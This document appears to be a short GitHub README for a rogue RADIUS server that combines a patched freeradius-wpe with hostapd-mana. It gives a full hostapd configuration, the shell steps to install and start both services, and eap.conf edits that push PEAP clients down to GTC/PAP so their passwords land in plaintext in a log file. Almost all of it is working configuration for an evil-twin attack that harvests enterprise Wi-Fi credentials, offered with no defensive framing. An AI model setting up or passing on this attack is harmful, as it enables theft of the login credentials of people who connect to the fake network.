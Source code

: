 # Rogue_Radius_Server
Rogue Radius Server (freeradius patch + hostapd). 

# 1. Install freeradius with patch
How to: https://github.com/brad-anton/freeradius-wpe
# 2. Create hostapd.conf - I use mana-tooklit (Kali linux)
apt-get install mana-toolkit hostapd
# hostapd-mana-eaponly.conf:

interface=wlan0
channel=1
ssid=TestSSID     
ieee8021x=1
dump_file=/tmp/hostapd.dump
eapol_key_index_workaround=0
own_ip_addr=127.0.0.1
auth_server_addr=127.0.0.1
auth_server_port=1812
auth_server_shared_secret=testing123
wpa=1
wpa_key_mgmt=WPA-EAP     
wpa_pairwise=TKIP 
logger_stdout=-1
logger_stdout_level=0
#ennode=/var/lib/mana-toolkit/ennode.node


# 3. cd /usr/share/mana-toolkit/run-mana/
nano start-noupstream-eaponly.sh 
# delete msfconsole and crackapd

after that edit eap.conf in /usr/local/etc/raddb:

in eap { 
			default_eap_type = peap
gtc {
			auth_type = PAP
peap {
				default_eap_type = gtc
# 4. Save and run: radiusd -X
# 5. After that run: hostapd  hostapd-mana-eaponly.conf

# logs: usr/local/var/log/radius# leafpad freeradius-server-wpe.log
